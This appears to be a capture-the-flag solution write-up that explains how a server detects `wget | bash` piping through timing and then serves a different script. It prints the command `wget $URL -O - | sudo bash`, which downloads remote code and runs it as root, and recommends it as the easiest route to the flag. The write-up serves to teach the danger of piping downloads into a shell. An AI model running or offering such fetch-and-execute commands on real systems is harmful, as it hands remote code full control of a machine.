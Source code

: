 # 100 - Trust Game (Solution)

## Visiting the Challenge
Being provided the url of the challenge, attempting to visit it in the browser will yield a gif about trust. Inspecting the source suggests that you try to use the command line.

## Curling the Challenge
While this was intended to be the right path to the solution, some changes to curl resulted in the flaw that the challenge relies on not being consistent. So instead, we use this opportunity to redirect the user towards wget. This can be seen by running `curl $URL`.

## Wgetting the Challenge
By running `wget $URL`, the server will send the `ping` command in `ticker.sh` to see if it's being piped anywhere. If it's not being piped anywhere, then we send the contents of `good.sh` which just taunts the user with `What, don't you trust us?`

### Wget | bash
By running `wget $URL | bash`, wget will simply save the contents of the previous section into a file called `index.html`, because wget doesn't print contents to stdout by default.

### Wget -O - | bash
By running `wget $URL -O - | bash`, the `ping` command in `ticker.sh` will run immediately when it's sent and this causes a timing variation for the rest of the script, allowing the malicious server to change the content that it's serving on the fly. So instead of the contents of `good.sh` we will send the contents of `flag.sh`.

### Wget -O - | sudo bash
Unfortunately, in this game of trust, we're expecting the user to trust in us completely. Just allowing us to run arbitrary code isn't good enough, we need to be privileged while we do it. So the very first section of `flag.sh` will check if the effective user ID (EUID) is 0 (root), and if it's not then print another comment about trusting us and a link to a youtube video suggesting that it's a permission error.


## Getting the Flag

The easiest way to get the flag is to trust the server: `wget $URL -O - | sudo bash`

But we also reward hackers who don't trust random CTF challenges, so an alternate solution can be achieved: `wget $URL -O - | (sleep 5; cat -)`. This works because we're still piping to something that sleeps, just like the server is expecting.